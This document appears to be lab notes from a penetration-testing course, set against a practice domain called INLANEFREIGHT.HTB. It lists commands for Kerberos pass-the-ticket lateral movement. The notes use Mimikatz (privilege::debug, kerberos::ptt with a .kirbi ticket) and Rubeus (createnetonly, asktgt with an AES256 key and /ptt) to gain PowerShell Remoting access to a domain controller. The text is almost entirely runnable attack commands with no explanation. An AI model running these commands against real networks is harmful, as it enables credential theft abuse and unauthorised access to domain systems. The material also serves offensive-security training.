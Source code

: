 ### Mimikatz - PowerShell Remoting with Pass the Ticket

#### Mimikatz - Pass the Ticket for Lateral Movement
```cmd.exe
mimikatz.exe
```

```cmd.exe
privilege::debug
```

```cmd.exe
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```cmd.exe
exit
```

```cmd.exe
Enter-PSSession -ComputerName DC01
```

```cmd.exe
whoami
```

```cmd.exe
hostname
```

### Rubeus - PowerShell Remoting with Pass the Ticket

#### Create a Sacrificial Process with Rubeus
```cmd.exe
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

#### Rubeus - Pass the Ticket for Lateral Movement
```cmd.exe
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

```cmd.exe
powershell
```

```cmd.exe
Enter-PSSession -ComputerName DC01
```

```cmd.exe
whoami
```

```cmd.exe
hostname
```
